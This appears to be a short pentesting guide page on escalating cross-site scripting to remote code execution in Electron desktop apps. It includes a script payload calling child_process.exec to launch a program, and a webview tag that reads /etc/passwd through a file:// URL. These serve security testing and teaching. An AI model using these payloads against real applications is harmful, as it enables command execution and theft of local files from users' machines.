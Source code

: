 # XSS to RCE Electron Desktop Apps

Recommended read for more trick: [https://mksben.l0.cm/2020/10/discord-desktop-rce.html?m=1](https://mksben.l0.cm/2020/10/discord-desktop-rce.html?m=1)

When I test Electron app, first I always check the options of the [BrowserWindow API](https://www.electronjs.org/docs/api/browser-window), which is used to create a browser window. By checking it, I think about how RCE can be achieved when arbitrary JavaScript execution on the renderer is possible.\
Example:

```
const mainWindowOptions = {
  title: 'Discord',
  backgroundColor: getBackgroundColor(),
  width: DEFAULT_WIDTH,
  height: DEFAULT_HEIGHT,
  minWidth: MIN_WIDTH,
  minHeight: MIN_HEIGHT,
  transparent: false,
  frame: false,
  resizable: true,
  show: isVisible,
  webPreferences: {
    blinkFeatures: 'EnumerateDevices,AudioOutputDevices',
    nodeIntegration: false,
    preload: _path2.default.join(__dirname, 'mainScreenPreload.js'),
    nativeWindowOpen: true,
    enableRemoteModule: false,
    spellcheck: true
  }
};
```

## nodeIntgration RCE

If the nodeIntegration is set to true, a web page's JavaScript can use Node.js features easily just by calling the `require()`. For example, the way to execute the calc application on Windows is:

```
<script>
  require('child_process').exec('calc');
</script>
```

## Read Arbitrary Internal FIle

If contextIsolation set to false you can try to use \<webview> (similar to \<iframe> butcan load local files) to read local files and exfiltrate them: using something like **\<webview src=”file:///etc/passwd”>\</webview>:**

![](<../../.gitbook/assets/1 u1jdRYuWAEVwJmf\_F2ttJg.png>)

**(Trick copied form** [**here**](https://medium.com/@renwa/facebook-messenger-desktop-app-arbitrary-file-read-db2374550f6d)**).**
